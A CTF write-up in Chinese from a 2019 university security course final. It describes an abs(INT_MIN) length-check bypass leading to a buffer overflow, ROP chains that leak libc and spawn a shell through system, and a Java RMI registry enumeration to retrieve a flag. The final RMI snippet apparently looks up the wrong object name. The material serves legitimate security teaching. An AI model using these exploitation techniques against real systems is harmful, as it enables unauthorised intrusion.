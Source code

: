 # Computer Security 2019 Final CTF 
## 隊名與組員
> NTUQQ
- 電機三趙崇皓
- 電機三李子筠
- 電機三陳昱行
- 資工三李豈翔
## 解題統計
|Category|Solves|
|---|---|
|pwn|1|
|reverse|3|
|web|1|
|crypto|0|
|misc|2|
|Total|7|

## 解題流程
### [Reverse] PokemonGo

### [pwn] Impossible
這題基本上是要 bypass 長度的限制。注意到當長度輸入是負的，程式是用 `len = abs(len)` 的方式來修正。這邊很自然會想到利用 int 的邊界條件。
   
```c
len = -2,147,483,648;
...
len = abs(len); // len is still -2,147,483,648 due to overflow
...
read( 0 , buf , len ); // len interpreted as size_t 
```
如上所示，如果我們將 `len` 設為 int 最小值，就可以繞過長度大小檢查，再利用 read 會 implicit cast 的特性，就可以達到 bof。
   
知道可以 bof 以後，接下來就簡單了。因為這題 PIE 沒有開，所以可以輕易訪問 .plt 和 .got。這邊串個 ROP chain 先讀 puts@got 拿到 puts 的 libc，然後算出 libc base。接著回到 main。第一次 ROP 如下：
```
pop_rdi, ret
puts@got address
puts@plt
main // 跳回 plt 再 ROP 一次
```
現在拿到了 libc base，就可以輕易拿到 system address，所以這邊就再 rop 一次：
```
ret // alignment 的問題
pop_rdi, ret
bin_sh libc address 
system libc address
```
執行完就成功拿 shell。

## [web] babyRMI
從原始碼看起來 remote 端會有一個 registry，裡面會放一些 RMIInterface 的物件。每個物件有一些函式可以呼叫。執行 compile.sh 就可以執行 runClient.sh，就是去執行 Client.java 的內容。
   
我們發現 Client.java 是呼叫 sayHello()，接下來就嘗試呼叫 getSecret()，他說
```
response: Hint: FLAG is not in this object! Try to find another object :)
```
所以很明顯就是要找其他的 RMIInterface。這邊就將 registry 裡的東西列出來：
```java
String[] boundNames = registry.list();
for (String name : boundNames) {
    System.out.println(name);
}
```
```
FLAG
Hello
```
然後修改一下 Client.java
```java
RMIInterface stub = (RMIInterface) registry.lookup("Hello");
String response = stub.getSecret();
```
就可以拿到 flag。